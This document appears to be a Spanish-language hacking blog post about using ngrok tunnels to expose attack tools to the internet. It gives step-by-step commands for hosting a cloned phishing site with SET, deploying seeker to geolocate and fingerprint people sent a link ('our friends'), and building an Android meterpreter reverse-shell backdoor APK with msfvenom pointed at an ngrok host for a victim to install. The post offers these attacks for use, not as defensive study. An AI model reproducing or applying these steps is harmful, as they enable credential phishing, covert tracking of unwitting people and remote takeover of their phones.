







¿Que es Ngrok?
Es una herramienta con la que podemos crear un tunel accesible a traves de un dominio que nos asigna la propia aplicacion, para asi acceder a un servidor local.

Vamos a su sitio web https://ngrok.com/ y nos registramos, y descargamos su cliente.

Nota: En la versión gratuita esta url se genera cada que ejecutemos ngrok , sin embargo con la opcion de pago podemos configurar subdominios permanentes y otras opciones mas avanzadas que harán mas facil nuestro trabajo.
Instalacion
Luego de descargar nuestro cliente vamos a conectarnos a nuestra cuenta con el authtoken que se genera cuando ingresamos a nuestra cuenta.
./ngrok authtoken TOKEN
SET (social engineer toolkit) con Ngrok
Luego de la instalacion de Ngrok vamos a empezar a jugar realizando pruebas con una herramienta que ya todos conocemos para realizar ataques de ingenieria social, vamos a realizar el ejemplo mas clasico que seria clonar un sitio web.
Iniciamos nuestro servicio de apache
service apache2 start
Para ello vamos a crear un tuner http con ngrok que apunte al puerto 80.
./ngrok http 80

Ahora vamos habilitar que apache2 funcione con set en el archivo local /etc/setoolkit/set.config. Buscamos la linea
APACHE_SERVER=OFF
y cambiamos OFF por ON, guardamos los cambios y procedemos a ejecutar setoolkit y a utilizar el modulo de Site Cloner.
Procedemos a la configuracion del modulo de la siguiente forma

Cuando se crea el tunel genera un index.html por default, asi que se recomiendo renombrar el index2.html que contiene el sitio web clonado.
Fuck yeah! cuando ingresamos a la url de ngrok obversvamos nuestro sitio web clonado.
Geolocalizacion de Dispositivos
Continuando con nuestro post, ahora veremos seeker una herramienta escrita en python que ya incluye ngrok con la cual podemos geolocalizar dispositivos. Con esta herramienta podemos extraer la siguiente informacion si el visitante acepta los permisos que la plataforma web pide.
- Longitud
- Latitud
- Exactitud
Sin permisos del usuario podemos obtener la siguiente informacion.
- Sistema operativo
- Plataforma
- Numero de nucleos de CPU
- Cantidad de RAM – Resultados aproximados
- Resolucion de la pantalla
- Informacion de GPU
- Nombre y version del navegador
- Dirrecion IP Publica
Instalacion
Clonamos el repositoria de git y Ejecutamos el script de instalacion.
git Clone https://github.com/thewhiteh4t/seeker.git
./install.sh
python seeker.py

Ahora solo queda enviar la url generada con la herramienta a nuestros amigos...

Metasploit con Ngrok
Como ultimo ejemplo vamos a realizar un ataque con msfvemon, en este caso usaremos el ataque mas simple generando un backdoor y enviando a la victima. Como en el ejemplo con setoolkit vamos a crear un tunel solo que en este caso sera TCP en el cual se va apuntar al puerto 1337.
./ngrok tcp 1337

Como se observa tenemos tcp://0.tcp.ngrok.io:14422
- 0.tcp.ngrok.io - Host apuntando a localhost
- 14422 - puerto apuntado al puerto 1337
Generando nuestro apk malicioso.14422
msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14422 R > /root/Z0172CK.apk
Ahora pondremos a la escucha nuestro handler

y cuando la victima instale el apk malicioso...
